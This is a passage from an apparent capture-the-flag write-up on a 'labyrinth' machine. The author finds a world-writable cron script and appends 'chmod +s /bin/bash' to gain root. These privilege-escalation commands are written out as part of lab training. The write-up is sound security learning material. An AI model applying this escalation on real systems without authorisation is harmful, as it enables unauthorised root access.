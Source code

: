 Nothing useful in `post_log.log`.

The `Screenshot from 2021-09-22 12-46-44.png` looks like user `minotaur` has some `sudo` permission which could be abused to escalate to root!

But how do we login as `minotaur`? I tried password reuse, but no dice, maybe it's a rabbit hole.

Anyways, in the root of the Linux file system (`/`), the `reminders` and `timers` are **not the default directory** in Linux:

```
daemon@labyrinth:/$ ls -lah
[...]
drwxr-xr-x   2 root root 4,0K jún   15  2021 reminders
[...]
drwxrwxrwx   2 root root 4,0K jún   15  2021 timers

daemon@labyrinth:/reminders$ ls -lah
[...]
-rw-r--r--  1 root root  42K szept  9 10:12 dontforget.txt
```

**/reminders/dontforget.txt:**
```
dont fo...forge...tttTEST
dont fo...forge...ttt
dont fo...forge...ttt
dont fo...forge...ttt
[...]
```

Not sure what is it.

```
daemon@labyrinth:/timers$ ls -lah
total 12K
drwxrwxrwx  2 root root 4,0K jún   15  2021 .
drwxr-xr-x 26 root root 4,0K nov    9  2021 ..
-rwxrwxrwx  1 root root   70 jún   15  2021 timer.sh
```

**/timers/timer.sh:**
```bash
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
```

Ohh! There must be a cronjob is running this Bash script! And, the most importantly, the `timer.sh` script is **world-writable**!! Which means we can escalate to root!

We can modify the Bash script into **adding a SUID set bit to `/bin/bash`**:

```
daemon@labyrinth:/timers$ echo "chmod +s /bin/bash" >> timer.sh

daemon@labyrinth:/timers$ cat timer.sh 
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
chmod +s /bin/bash
```
